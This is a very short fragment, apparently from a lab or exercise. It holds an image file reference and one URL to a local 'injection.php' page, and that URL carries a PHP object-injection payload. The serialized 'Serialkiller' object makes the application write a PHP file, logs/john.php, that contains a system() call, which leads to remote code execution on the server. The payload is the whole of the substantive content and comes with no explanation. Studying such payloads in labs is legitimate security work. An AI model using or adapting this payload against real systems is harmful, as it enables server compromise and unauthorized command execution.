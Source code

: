 http://localhost/injection.php?data=O:12:%22Serialkiller%22:4:{s:24:%22%00Serialkiller%00cache_file%22;s:16:%22cache/john.cache%22;s:22:%22%00Serialkiller%00log_file%22;s:13:%22logs/john.php%22;s:21:%22%00Serialkiller%00content%22;s:26:%22%3C?php%20system(%27dir%20/b%27);%20?%3E%22;s:18:%22%00Serialkiller%00user%22;s:4:%22john%22;}
